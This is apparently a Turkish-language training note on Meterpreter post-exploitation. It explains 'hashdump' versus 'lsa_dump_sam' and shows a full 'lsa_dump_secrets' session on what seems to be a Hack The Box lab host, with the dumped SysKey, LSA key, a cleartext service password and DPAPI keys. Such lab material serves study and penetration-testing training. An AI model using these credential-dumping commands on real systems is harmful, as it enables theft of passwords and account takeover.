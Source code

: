 `hashdump`, Meterpreter oturumunda hedef sistemdeki kullanıcı hesaplarının parolalarının hash'lerini çıkarmak için kullanılan bir komuttur ve bu hash'ler, offline kırma işlemleri için kullanılabilir. `lsa_dump_sam` ise, Local Security Authority (LSA) üzerinden kullanıcı bilgilerini ve parolaların hash'lerini elde eden bir komuttur ve genellikle daha fazla ayrıntı sunarak güvenlik politikaları hakkında bilgi sağlar. Temel farkları, `hashdump`'un sadece SAM veritabanından hash'leri alması iken, `lsa_dump_sam`'ın daha kapsamlı güvenlik bilgileri ve hesap durumları ile birlikte daha güvenilir veriler sağlamasıdır.


#### MSF - Meterpreter LSA Secrets Dump
```shell-session
meterpreter > lsa_dump_secrets

[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
Domain name : HTB

Policy subsystem is : 1.7
LSA Key : ada60ee248094ce782807afae1711b2c

Secret  : aspnet_WP_PASSWORD
cur/text: Q5C'181g16D'=F

Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2 

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63 
    full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
    m/u : 7a3b72f3cded29ceb8095bb0e263738aabc6ca49 / 2b31e79a484f9cb310fcfd35bdd7d590165ffc63

Secret  : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
cur/hex : 52 53 41 32 48 00 00 00 00 02 00 00 3f 00 00 00 01 00 01 00 b3 ec 6b 48 4c ce e5 48 f1 cf 87 4f e5 21 00 39 0c 35 87 88 f2 51 41 e2 2a e0 01 83 a4 27 92 b5 30 12 aa 70 08 24 7c 0e de f7 b0 22 69 1e 70 97 6e 97 61 d9 9f 8c 13 fd 84 dd 75 37 35 61 89 c8 00 00 00 00 00 00 00 00 97 a5 33 32 1b ca 65 54 8e 68 81 fe 46 d5 74 e8 f0 41 72 bd c6 1e 92 78 79 28 ca 33 10 ff 86 f0 00 00 00 00 45 6d d9 8a 7b 14 2d 53 bf aa f2 07 a1 20 29 b7 0b ac 1c c4 63 a4 41 1c 64 1f 41 57 17 d1 6f d5 00 00 00 00 59 5b 8e 14 87 5f a4 bc 6d 8b d4 a9 44 6f 74 21 c3 bd 8f c5 4b a3 81 30 1a f6 e3 71 10 94 39 52 00 00 00 00 9d 21 af 8c fe 8f 9c 56 89 a6 f4 33 f0 5a 54 e2 21 77 c2 f4 5c 33 42 d8 6a d6 a5 bb 96 ef df 3d 00 00 00 00 8c fa 52 cb da c7 10 71 10 ad 7f b6 7d fb dc 47 40 b2 0b d9 6a ff 25 bc 5f 7f ae 7b 2b b7 4c c4 00 00 00 00 89 ed 35 0b 84 4b 2a 42 70 f6 51 ab ec 76 69 23 57 e3 8f 1b c3 b1 99 9e 31 09 1d 8c 38 0d e7 99 57 36 35 06 bc 95 c9 0a da 16 14 34 08 f0 8e 9a 08 b9 67 8c 09 94 f7 22 2e 29 5a 10 12 8f 35 1c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

Secret  : L$RTMTIMEBOMB_1320153D-8DA3-4e8e-B27B-0D888223A588
cur/hex : 00 f2 d1 31 e2 11 d3 01 

Secret  : L$TermServLiceningSignKey-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

Secret  : L$TermServLicensingExchKey-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

Secret  : L$TermServLicensingServerId-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

Secret  : L$TermServLicensingStatus-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

Secret  : L${6B3E6424-AF3E-4bff-ACB6-DA535F0DDC0A}
cur/hex : ca 66 0b f5 42 90 b1 2b 64 a0 c5 87 a7 db 9a 8a 2e ee da a8 bb f6 1a b1 f4 03 cf 7a f1 7f 4c bc fc b4 84 36 40 6a 34 f9 89 56 aa f4 43 ef 85 58 38 3b a8 34 f0 dc c3 7f 
```